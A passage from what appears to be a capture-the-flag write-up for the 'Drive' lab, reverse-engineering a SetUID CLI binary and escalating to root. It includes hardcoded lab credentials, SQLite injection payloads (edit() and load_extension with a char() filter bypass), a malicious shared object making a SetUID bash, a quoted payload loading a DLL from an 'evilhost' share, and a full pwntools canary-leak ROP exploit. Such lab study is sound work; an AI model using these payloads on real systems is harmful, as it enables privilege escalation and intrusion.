    after the great success of DoodleGrive, we are planning now to start working on our new project: "DoodleGrive self hosted",it will allow our customers to deploy their own documents sharing platform privately on their servers...
    However in addition with the "new self Hosted release" there should be a tool(doodleGrive-cli) to help the IT team in monitoring server status and fix errors that may happen.
    As we mentioned in the last meeting the tool still in the development phase and we should test it properly...
    We sent the username and the password in the email for every user to help us in testing the tool and make it better.
    If you face any problem, please report it to the development team.
    Best regards.
    

Running it prompts for a username and password:

    
    
    tom@drive:~$ ./doodleGrive-cli 
    [!]Caution this tool still in the development phase...please report any issue to the development team[!]
    Enter Username:
    0xdf
    Enter password for 0xdf:
    0xdf
    Invalid username or password.
    

I’ll pull the binary to my host with `scp`:

    
    
    oxdf@hacky$ sshpass -p 'johnmayer7' scp tom@drive.htb:~/doodleGrive-cli .
    

### doodleGrive-cli

#### File Meta

The file is a 64-bit Linux executable:

    
    
    oxdf@hacky$ file doodleGrive-cli 
    doodleGrive-cli: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=8c72c265a73f390aa00e69fc06d96f5576d29284, for GNU/Linux 3.2.0, not stripped
    

Running `strings` on the binary shows a few clues. The program uses SQLite and
the database in the web directory:

    
    
    oxdf@hacky$ strings doodleGrive-cli
    ...[snip]...
    /usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line 'SELECT id,last_login,is_superuser,username,email,is_staff,is_active,date_joined FROM accounts_customuser;'
    /usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line 'SELECT id,name FROM accounts_g;'
    /usr/bin/sudo -u www-data /opt/server-health-check.sh
    /usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line 'UPDATE accounts_customuser SET is_active=1 WHERE username="%s";'
    ...[snip]...
    

There’s a menu:

    
    
    ...[snip]...
    doodleGrive cli beta-2.2: 
    1. Show users list and info
    2. Show groups list
    3. Check server health and status
    4. Show server requests log (last 1000 request)
    5. activate user account
    6. Exit
    Select option: 
    exiting...
    please Select a valid option...
    ...[snip]...
    

There are strings about logging in:

    
    
    ...[snip]...
    [!]Caution this tool still in the development phase...please report any issue to the development team[!]
    Enter Username:
    Enter password for 
    moriarty
    findMeIfY0uC@nMr.Holmz!
    Welcome...!
    Invalid username or password.
    ...[snip]...
    

With just this, I can guess the username of moriarty and password
“findMeIfY0uC@nMr.Holmz!” (which does work).

#### main

I’ll open it in Ghidra and once it finishes analysis, go to `main`. After a
bit of renaming / retyping, it looks like:

    
    
    int main(void)
    
    {
      int res;
      long in_FS_OFFSET;
      char entered_username [16];
      char entered_password [56];
      long canary;
      
      canary = *(long *)(in_FS_OFFSET + 0x28);
      setenv("PATH","",1);
      setuid(0);
      setgid(0);
      puts(
          "[!]Caution this tool still in the development phase...please report any issue to the developm ent team[!]"
          );
      puts("Enter Username:");
      fgets(entered_username,0x10,(FILE *)stdin);
      sanitize_string(entered_username);
      printf("Enter password for ");
      printf(entered_username,0x10);
      puts(":");
      fgets(entered_password,400,(FILE *)stdin);
      sanitize_string(entered_password);
      res = strcmp(entered_username,"moriarty");
      if (res == 0) {
        res = strcmp(entered_password,"findMeIfY0uC@nMr.Holmz!");
        if (res == 0) {
          puts("Welcome...!");
          main_menu();
          goto LAB_0040231e;
        }
      }
      puts("Invalid username or password.");
    LAB_0040231e:
      if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                        /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return 0;
    }
    

The username and password are static checks for “moriarty” and
“findMeIfY0uC@nMr.Holmz!”, just as I predicted when looking at strings.

#### sanitize_string

This function looks a bit complex, but it is just looping through the string
and removing any characters that match a given deny list:

    
    
    void sanitize_string(char *string)
    
    {
      size_t sVar1;
      long in_FS_OFFSET;
      int ptr;
      int i;
      uint j;
      undefined8 local_29;
      undefined local_21;
      long canary;
      bool bad_char;
      
      canary = *(long *)(in_FS_OFFSET + 0x28);
      ptr = 0;
      local_29 = 0x5c7b2f7c20270a00;
      local_21 = 0x3b;
      i = 0;
      do {
        sVar1 = strlen(string);
        if (sVar1 <= (ulong)(long)i) {
          string[ptr] = '\0';
          if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                        /* WARNING: Subroutine does not return */
            __stack_chk_fail();
          }
          return;
        }
        bad_char = false;
        for (j = 0; j < 9; j = j + 1) {
          if (string[i] == *(char *)((long)&local_29 + (long)(int)j)) {
            bad_char = true;
            break;
          }
        }
        if (!bad_char) {
          string[ptr] = string[i];
          ptr = ptr + 1;
        }
        i = i + 1;
      } while( true );
    }
    

The bad characters are in hex “5c7b2f7c20270a003b”, which is “\\{/| ‘\n\00;”.
This is a bit of an odd list, but it will prevent some attacks such as SQL
injection.

#### main_menu

This function offers the menu, parses the input, and calls the matching
function:

    
    
    void main_menu(void)
    
    {
      long in_FS_OFFSET;
      char user_input [24];
      undefined8 canary;
      
      canary = *(undefined8 *)(in_FS_OFFSET + 0x28);
      fflush((FILE *)stdin);
      do {
        putchar(10);
        puts("doodleGrive cli beta-2.2: ");
        puts("1. Show users list and info");
        puts("2. Show groups list");
        puts("3. Check server health and status");
        puts("4. Show server requests log (last 1000 request)");
        puts("5. activate user account");
        puts("6. Exit");
        printf("Select option: ");
        fgets(user_input,10,(FILE *)stdin);
        switch(user_input[0]) {
        case '1':
          show_users_list();
          break;
        case '2':
          show_groups_list();
          break;
        case '3':
          show_server_status();
          break;
        case '4':
          show_server_log();
          break;
        case '5':
          activate_user_account();
          break;
        case '6':
          puts("exiting...");
                        /* WARNING: Subroutine does not return */
          exit(0);
        default:
          puts("please Select a valid option...");
        }
      } while( true );
    }
    

It only checks the first byte of input for ASCII 1-6, and option 6 just exits.

#### Menu Options (1-4)

Each of the menu options calls a function with `system` and the output will be
shown to the screen. For example, `show_users_list`:

    
    
    void show_users_list(void)
    
    {
      long in_FS_OFFSET;
      long canary;
      
      canary = *(long *)(in_FS_OFFSET + 0x28);
      system(
            "/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line \'SELECT id,last_login,is_superuser, username,email,is_staff,is_active,date_joined FROM accounts_customuser;\'"
            );
      if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                        /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return;
    }
    

In this case, it runs a SQLite query. The others each call system with a
different command:

Option | Function | Command  
---|---|---  
1 | `show_users_list` | `/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line 'SELECT id,last_login,is_superuser, username,email,is_staff,is_active,date_joined FROM accounts_customuser;'`  
2 | `show_groups_list` | `/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line 'SELECT id,name FROM accounts_g;'`  
3 | `show_server_status` | `/usr/bin/sudo -u www-data /opt/server-health-check.sh`  
4 | `show_server_log` | `/usr/bin/sudo -u www-data /usr/bin/tail -1000 /var/log/nginx/access.log`  
  
Each of these runs without user input, so there’s not much I can do to mess
with them.

#### activate_user_account

Option 5, `activate_user_account`, is similar to the others, but it takes user
input:

    
    
    void activate_user_account(void)
    
    {
      size_t first_newline_offset;
      long in_FS_OFFSET;
      char username_input [48];
      char cmd_str [264];
      long canary;
      
      canary = *(long *)(in_FS_OFFSET + 0x28);
      printf("Enter username to activate account: ");
      fgets(username_input,0x28,(FILE *)stdin);
      first_newline_offset = strcspn(username_input,"\n");
      username_input[first_newline_offset] = '\0';
      if (username_input[0] == '\0') {
        puts("Error: Username cannot be empty.");
      }
      else {
        sanitize_string(username_input);
        snprintf(cmd_str,0xfa,
                 "/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line \'UPDATE accounts_customuser SET is_active=1 WHERE username=\"%s\";\'"
                 ,username_input);
        printf("Activating account for user \'%s\'...\n",username_input);
        system(cmd_str);
      }
      if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                        /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return;
    }
    

It updates the `is_active` value for a user to 1.

### Exploitation Paths

There are multiple vulnerabilities in this binary that can lead to a root
shell:

    
    
    flowchart TD;
        A[SetUID doodleGrive-cli]-->B(SQL Injection);
        B-->C(edit RCE);
        C-->D[root Shell];
        B-->G(load_extension RCE);
        G-->D;
        A-->E(Format String\nLeak Canary);
        E-->F(BOF / ROP);
        F-->D;    
        subgraph identifier[" "]
          direction LR
          start1[ ] --->|intended| stop1[ ]
          style start1 height:0px;
          style stop1 height:0px;
          start2[ ] --->|unintended| stop2[ ]
          style start2 height:0px;
          style stop2 height:0px; 
        end
        
    linkStyle default stroke-width:2px,stroke:#FFFF99,fill:none;
    linkStyle 0,1,2,3,4,9 stroke-width:2px,stroke:#4B9CD3,fill:none;
    style identifier fill:#1d1d1d,color:#FFFFFFFF;
    

### Via SQLi / edit

This is method involves abusing the `edit` [SQL
function](https://www.sqlite.org/draft/cli.html#the_edit_sql_function). This
function allows an interactive user to specify a binary that will apply to
each value from a column as they are used.

> If the second argument is omitted, the VISUAL environment variable is used.

So if I can set this environment variable, it will call a program for me.

Locally I can try this on the `db.sqlite3` file on my local system:

    
    
    oxdf@hacky$ VISUAL=cat sqlite3 db.sqlite3 'select "1" from accounts_customuser where username=""&edit(username)';
    admincrisDiseljamesMasonmartinCruztomHands
    

By setting `VISUAL` to `cat`, it calls `cat` on each column one by one as part
of the query.

I don’t need to bypass the filter at all, as none of these characters are
removed.

I’ll start the CLI and authenticate:

    
    
    tom@drive:~$ VISUAL=/usr/bin/vim ./doodleGrive-cli 
    [!]Caution this tool still in the development phase...please report any issue to the development team[!]
    Enter Username:
    moriarty
    Enter password for moriarty:
    findMeIfY0uC@nMr.Holmz!
    Welcome...!
    
    doodleGrive cli beta-2.2: 
    1. Show users list and info
    2. Show groups list
    3. Check server health and status
    4. Show server requests log (last 1000 request)
    5. activate user account
    6. Exit
    Select option:
    

I’ll select option 5, and give it my injection:

    
    
    Select option: 5
    Enter username to activate account: "&edit(username);-- -
    

When I hit enter, it open `vim` with the text “admin”. I’ll enter
`:!/bin/bash` to execute `bash` from within `vim`, and it drops to a root
shell:

    
    
    Select option: 5
    Enter username to activate account: "&edit(username);-- -
    Activating account for user '"&edit(username)---'...
    
    bash: groups: No such file or directory
    bash: lesspipe: No such file or directory
    bash: dircolors: No such file or directory
    root@drive:~#
    

This shell has no PATH, so I can either set it, or run everything with full
path:

    
    
    root@drive:/root# /bin/ls
    root.txt
    root@drive:/root# /bin/cat root.txt
    641e7a5b************************
    

### Via SQLi / load_extension

#### Strategy

The `activate_user_account` function asks for input which is used to build a
command string. If I can bypass the filter function, then I can inject into
that SQLite call. The [PayloadsAllTheThings page on
SQLite](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#remote-
command-execution-using-sqlite-command---load_extension) shows this POC for
getting RCE via SQLite:

    
    
    UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
    

It’s loading a DLL from a file share to run on a Windows host. Still, this is
enough to get me looking at the `load_extension`
[function](https://www.sqlite.org/c3ref/load_extension.html), which seems to
load a shared object file and call `sqlite3_extension_init`.

#### POC load_extension

First I want to get a payload that will run. I’ll create a very simple POC
program in C:

    
    
    #include <stdlib.h>
    
    void sqlite3_extension_init() {
        system("id");
    }
    

I’ll compile that into a shared object:

    
    
    oxdf@hacky$ gcc -shared -fPIC poc.c -o poc.so
    oxdf@hacky$ file poc.so
    poc.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=1d5a4c0bc52b6a08141a4c04150203fbfc155bdf, not stripped
    

Now I’ll run `sqlite3` and try to get it loaded. To run commands from the
command line, I’ll need to give it a DB to open, but it doesn’t have to
actually exist if I’m not querying any tables:

    
    
    oxdf@hacky$ sqlite3 does_not_exist.sql "select 1";
    1
    

The same way, I can call `load_extension`:

    
    
    oxdf@hacky$ sqlite3 does_not_exist.sql "select load_extension('./poc')";
    uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),115(netdev),123(nopasswdlogin),141(docker),999(vboxsf)
    

The fact that I see `id` output shows it ran my extension.

#### Injection

The program runs the following:

    
    
    /usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line \'UPDATE accounts_customuser SET is_active=1 WHERE username=\"%s\";\'
    

It is putting my input in double quote marks. So to inject out of that, I need
send something like:

    
    
    ",load_extension('./poc');-- -
    

That would make the SQL:

    
    
    UPDATE accounts_customuser SET is_active=1 WHERE username="",load_extension('./poc');-- -"
    

On my machine, I’ll try that:

    
    
    oxdf@hacky$ sqlite3 does_not_exist.sql 'select "1",load_extension("./poc");-- -aaaaasdasda';
    uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),115(netdev),123(nopasswdlogin),141(docker),999(vboxsf)
    1|
    

This is actually cool because it’s showing how the extension is loaded, and it
returns nothing, which becomes the empty column in the output. The junk after
the `-- -` is just to make sure the comment works.

#### Filter Bypass

For this to work, I need to use the `/` character, which is banned. I don’t
have a good way to reference my shared library without it. However,
`load_extension` takes a string. In the above example I hardcode it, but
there’s no reason that string can’t be the output of a function. For example,
`char` ([docs](https://www.sqlite.org/lang_corefunc.html#char)). “./poc” as a
list of ints is 46, 47, 112, 111, 99. So I can do:

    
    
    oxdf@hacky$ sqlite3 does_not_exist.sql 'select "1",load_extension(char(46,47,112,111,99));-- -aaaaasdasda';
    uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),115(netdev),123(nopasswdlogin),141(docker),999(vboxsf)
    1|
    

#### Exploitation POC

Putting that all together, I’ll generate a SO to run on Drive:

    
    
    #include <stdlib.h>
    void sqlite3_extension_init() {
        system("/bin/id");
    }
    

It’s important to give the full path, as the binary drops the `PATH` variable.
I’ll compile it:

    
    
    tom@drive:/dev/shm$ gcc -shared poc.c -o p.so -fPIC
    tom@drive:/dev/shm$ file p.so 
    poc.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=703f07b9524db0445fbabc08c598856232039ce2, not stripped
    

I have to make this short. The input user name is limited to 0x28 = 40
characters:

    
    
      printf("Enter username to activate account: ");
      fgets(username_input,0x28,(FILE *)stdin);
    

To do `"+load_extension(char(46,47,112,111,99));-- -` is 45 characters. If I
name my extension `p.so`, I’ll work fine as
`"+load_extension(char(46,47,112));-- -` at 38 characters.

Now from `/dev/shm` (so that `./p.so` works), I’ll run `doodleGrive-cli`.
After authenticating, I’ll select 5 and give the injection:

    
    
    Select option: 5
    Enter username to activate account: "+load_extension(char(46,47,112));-- -
    Activating account for user '"+load_extension(char(46,47,112))---'...
    uid=0(root) gid=0(root) groups=0(root),1003(tom)
    
    doodleGrive cli beta-2.2: 
    1. Show users list and info
    2. Show groups list
    3. Check server health and status
    4. Show server requests log (last 1000 request)
    5. activate user account
    6. Exit
    Select option:
    

It ran `id`!

#### Shell

I’ll update my `poc.c` to make a copy of `bash` and set it as SetUID/SedGID (I
like this better than just changing `/bin/bash` as to not accidentally spoil
for other players).

    
    
    #include <stdlib.h>
    void sqlite3_extension_init() {
        system("/bin/cp /bin/bash /tmp/0xdf");
        system("/bin/chmod 6777 /tmp/0xdf");
    }
    

I’ll compile that over `p.so` and run the exploit again. Now there’s a
SetUID/SetGID binary at `/tmp/0xdf`:

    
    
    tom@drive:/dev/shm$ ls -l /tmp/0xdf 
    -rwsrwsrwx 1 root root 1183448 Feb 14 22:25 /tmp/0xdf
    

Running with `-p` (to not drop privs) gives a root shell and the flag:

    
    
    tom@drive:/dev/shm$ /tmp/0xdf -p
    0xdf-5.0# id
    uid=1003(tom) gid=1003(tom) euid=0(root) egid=0(root) groups=0(root),1003(tom)
    0xdf-5.0# cat /root/root.txt
    641e7a5b************************
    

### Via Format String / BOF

There’s nothing here I haven’t shown many times before, but I’ll give a quick
walkthrough as it is the intended way.

#### Leak Canary

In `main`, there’s a format string vuln, where the user input name is printed
as the first argument to `printf`:

    
    
      printf("Enter password for ");
      printf(entered_username,0x10);
    

That `printf` call takes place at the 0x40229c. The stack canary is set at
0x402202. I’ll break at both of those in `gdb`:

    
    
    gdb-peda$ b *0x402202
    Breakpoint 1 at 0x402202
    gdb-peda$ b *0x40229c
    Breakpoint 2 at 0x40229c 
    

I’ll run to the first break, and then step to see the canary get set in RAX
and then pushed to the stack. In this run, its set as:

    
    
    RAX: 0xa70f7a4603600e00 
    

I’ll run to the next break, putting in whatever as a username. When it gets
there, I’ll look at the stack:

    
    
    gdb-peda$ x/16g $rsp
    0x7fffffffda80: 0x0000786c24353125      0x0000000000000002
    0x7fffffffda90: 0x00000000004c00e0      0x000000000040339c
    0x7fffffffdaa0: 0x00007fffffffdc08      0x0000000000400518
    0x7fffffffdab0: 0x0000000000403320      0x00000000004033c0
    0x7fffffffdac0: 0x0000000000000000      0xa70f7a4603600e00
    0x7fffffffdad0: 0x0000000000403320      0x0000000000402b50
    0x7fffffffdae0: 0x0000000000000000      0x0000000100000000
    0x7fffffffdaf0: 0x00007fffffffdc08      0x00000000004021ed
    

The space for input is small, but I can read the i-th word on the stack with
`%i$lx`, where `i` is a number.

I’ll use a simple Bash loop to try different offsets:

    
    
    oxdf@hacky$ for i in $(seq 1 30); do echo -n "$i: "; echo "%${i}"'$lx' | ./doodleGrive-cli | grep "Enter password for" | cut -d' ' -f4; done
    1: 10:
    2: 0:
    3: 0:
    4: 7ffc322aa7b0:
    5: 13:
    6: 786c243625:
    7: 2:
    8: 4c00e0:
    9: 40339c:
    10: 7ffe4d8f3f48:
    11: 400518:
    12: 403320:
    13: 4033c0:
    14: 0:
    15: 7e298c924cb0a00:
    16: 403320:
    17: 402b50:
    18: 0:
    19: 100000000:
    20: 7fff573f1318:
    21: 4021ed:
    22: 0:
    23: 1900000000:
    24: 21:
    25: 2000000000:
    26: 0:
    27: 0:
    28: 0:
    29: 0:
    30: 0:
    

15 looks like the best candidate to be the carary. If I run the loop a couple
more times, most of the values stay basically the same, but 15 is completely
random. That’s the canary.

The output looks like this:

    
    
    oxdf@hacky$ ./doodleGrive-cli 
    [!]Caution this tool still in the development phase...please report any issue to the development team[!]
    Enter Username:
    %15$lx
    Enter password for ae1d5d1e957b4200:
    

#### Getting BOF Offset

Next I’ll get the offset of the overflow to overwrite RIP. The
`entered_password` buffer is 56 bytes long, but it’s read into unsafely up to
400 bytes:

    
    
    fgets(entered_password,400,(FILE *)stdin);
    

I’ll create a pattern:

    
    
    oxdf@hacky$ pattern_create -l 200
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
    

I’ll set a break point at the place where the canary is checked:

    
    
    gdb-peda$ disassemble main
    ...[snip]...
       0x0000000000402323 <+310>:   mov    rcx,QWORD PTR [rbp-0x8]
       0x0000000000402327 <+314>:   xor    rcx,QWORD PTR fs:0x28
       0x0000000000402330 <+323>:   je     0x402337 <main+330>
       0x0000000000402332 <+325>:   call   0x456d30 <__stack_chk_fail_local>
       0x0000000000402337 <+330>:   leave  
       0x0000000000402338 <+331>:   ret
    gdb-peda$ b *main+314
    Breakpoint 1 at 0x402327
    

I’ll run, entering whatever for the username and the pattern for the password.
When it hits the break point, I can see it’s just loaded the canary off the
stack into RCX:

    
    
    [----------------------------------registers-----------------------------------]
    RAX: 0x0 
    RBX: 0x400518 --> 0x0 
    RCX: 0x4130634139624138 ('8Ab9Ac0A')
    RDX: 0x0 
    RSI: 0x4c8bd0 ("Invalid username or password.\nthe development phase...please report any issue to the development team[!]\n")
    RDI: 0x4c5ea0 --> 0x0 
    RBP: 0x7fffffffdad0 ("c1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
    RSP: 0x7fffffffda80 --> 0x66647830 ('0xdf')
    RIP: 0x402327 (<main+314>:      xor    rcx,QWORD PTR fs:0x28)
    R8 : 0x1e 
    R9 : 0x0 
    R10: 0x7fffffffda80 --> 0x66647830 ('0xdf')
    R11: 0x246 
    R12: 0x4033c0 (<__libc_csu_fini>:       endbr64)
    R13: 0x0 
    R14: 0x4c3018 --> 0x448810 (<__strcpy_avx2>:    endbr64)
    R15: 0x0
    EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0x402319 <main+300>: call   0x419ca0 <puts>
       0x40231e <main+305>: mov    eax,0x0
       0x402323 <main+310>: mov    rcx,QWORD PTR [rbp-0x8]
    => 0x402327 <main+314>: xor    rcx,QWORD PTR fs:0x28
       0x402330 <main+323>: je     0x402337 <main+330>
       0x402332 <main+325>: call   0x456d30 <__stack_chk_fail_local>
       0x402337 <main+330>: leave  
       0x402338 <main+331>: ret
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffda80 --> 0x66647830 ('0xdf')
    0008| 0x7fffffffda88 --> 0x2 
    0016| 0x7fffffffda90 ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
    0024| 0x7fffffffda98 ("2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
    0032| 0x7fffffffdaa0 ("a5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
    0040| 0x7fffffffdaa8 ("Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
    0048| 0x7fffffffdab0 ("0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
    0056| 0x7fffffffdab8 ("b3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    
    Breakpoint 1, 0x0000000000402327 in main ()
    

This value is the part of the pattern that ended up as the canary.
`pattern_offset` will show how far into the pattern that is:

    
    
    oxdf@hacky$ pattern_offset -q 4130634139624138
    [*] Exact match at offset 56
    

So I want 56 bytes then the leaked canary and then the return address.

#### Addresses

My strategy is going to be to call `system("/bin/sh")`. I’ll need a `/bin/sh`
string to pass to `system`. I can’t send it myself, as `/` is a banned
character. But it exists in the binary:

    
    
    oxdf@hacky$ strings -a -t x doodleGrive-cli | grep bin/sh
      97cd5 /bin/sh
    

Because the binary has PIE disabled, this should be at the same place every
time:

    
    
    gdb-peda$ checksec 
    CANARY    : ENABLED
    FORTIFY   : disabled
    NX        : ENABLED
    PIE       : disabled
    RELRO     : Partial
    

I’ll also need the address of `system` (and `exit` if I want to be clean), and
those are easily found with `pwntools` in Python by loading the binary (`elf =
ELF("./doodleGrive-cli")`) and then referencing the addresses
(`elf.sym.system` and `elf.sym.exit`).

Finally, I need two gadgets. In 64-bit, the first argument to `system` will be
the string at the address in RDI. So I need a `pop $rdi; ret` gadget. I’ll
also need a plain `ret` gadget for stack alignment.

[Ropper]() is a nice tool for this:

    
    
    oxdf@hacky$ ropper -f ./doodleGrive-cli --search "pop rdi"
    [INFO] Load gadgets from cache
    [LOAD] loading... 100%
    [LOAD] removing double gadgets... 100%
    [INFO] Searching for gadgets: pop rdi
    
    [INFO] File: ./doodleGrive-cli
    0x000000000044734d: pop rdi; add eax, dword ptr [rax]; add byte ptr [rax - 0x7d], cl; ret 0x4910; 
    0x00000000004569a0: pop rdi; call rax; 
    0x00000000004569a0: pop rdi; call rax; mov rdi, rax; mov eax, 0x3c; syscall; 
    0x00000000004675cd: pop rdi; idiv esi; jmp qword ptr [rsi + 0x2e]; 
    0x0000000000436eb9: pop rdi; in al, dx; mov qword ptr [rdi - 0xc], rcx; mov dword ptr [rdi - 4], edx; ret; 
    0x0000000000436cc9: pop rdi; in eax, dx; mov qword ptr [rdi - 0xb], rcx; mov dword ptr [rdi - 4], edx; ret; 
    0x000000000042831d: pop rdi; jmp rax; 
    0x000000000041935f: pop rdi; or byte ptr [rbx - 0x76fefbb9], al; ret 0xe281; 
    0x0000000000410a40: pop rdi; or eax, dword ptr [rax]; syscall; 
    0x0000000000436ae9: pop rdi; out dx, al; mov qword ptr [rdi - 0xa], rcx; mov dword ptr [rdi - 4], edx; ret; 
    0x0000000000436919: pop rdi; out dx, eax; mov qword ptr [rdi - 9], r8; mov dword ptr [rdi - 4], edx; ret; 
    0x0000000000436a15: pop rdi; out dx, eax; mov qword ptr [rdi - 9], rcx; mov byte ptr [rdi - 1], dl; ret; 
    0x0000000000436961: pop rdi; out dx, eax; mov qword ptr [rdi - 9], rcx; mov dword ptr [rdi - 4], edx; ret; 
    0x0000000000403a4b: pop rdi; pop rbp; ret; 
    0x0000000000401912: pop rdi; ret; 
    

The last one looks perfect. And 0x401913 (one byte after) is just `ret`.

#### Exploit

I’ll generate the following script:

    
    
    from pwn import *
    
    elf = ELF("./doodleGrive-cli")
    
    # addresses
    pop_rdi = p64(0x401912) # ropper -f ./doodleGrive-cli --search "pop rdi"
    ret = p64(0x401913)     # just return from previous
    bin_sh = p64(0x497cd5)  # strings -a -t x doodleGrive-cli | grep bin/sh
    
    if args.SSH:
        ssh = ssh(host="drive.htb", user="tom", password="johnmayer7")
        p = ssh.process("/home/tom/doodleGrive-cli")
        prompt = ""
    else:
        p = elf.process()
        prompt = "$ "
    
    #gdb.attach(p, """break *0x40229c\nc\n""")
    
    # format string vuln to leak canary
    p.readuntil(b"Enter Username:\n")
    p.sendline(b"%15$lx")
    p.readuntil(b"Enter password for ")
    leak = p.readuntil(b":\n").strip(b"\n:")
    canary = int(leak, 16)
    info(f"Leak canary: 0x{canary}")
    
    # build payload to ROP system("/bin/sh")
    payload = b"A" * 56             # offset to canary
    payload += p64(canary)          # leaked canary
    payload += b"A" * 8             # junk for stack pointer
    payload += ret                  # ret for stack alignment
    payload += pop_rdi              # go to pop rdi gadget
    payload += bin_sh               # address of "/bin/sh" to pop into RDI
    payload += p64(elf.sym.system)  # return to system
    payload += p64(elf.sym.exit)    # return to exit
    
    p.sendline(payload)
    # clear message
    p.readuntil(b"Invalid username or password.")
    # reset path cleared by binary
    p.sendline(b"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin")
    p.interactive(prompt=prompt)
    

Running this locally gives a shell:

    
    
    oxdf@hacky$ python sploit.py
    [*] '/media/sf_CTFs/hackthebox/drive-10.10.11.235/doodleGrive-cli'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    [+] Starting local process '/media/sf_CTFs/hackthebox/drive-10.10.11.235/doodleGrive-cli': pid 778049
    [*] Leak canary: 0x16285182807784140032
    [*] Switching to interactive mode
    
    $ id
    uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),115(netdev),123(nopasswdlogin),141(docker),999(vboxsf)
    

If I give it the `SSH` argument, it works remotely:

    
    
    oxdf@hacky$ python sploit.py SSH
    [*] '/media/sf_CTFs/hackthebox/drive-10.10.11.235/doodleGrive-cli'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
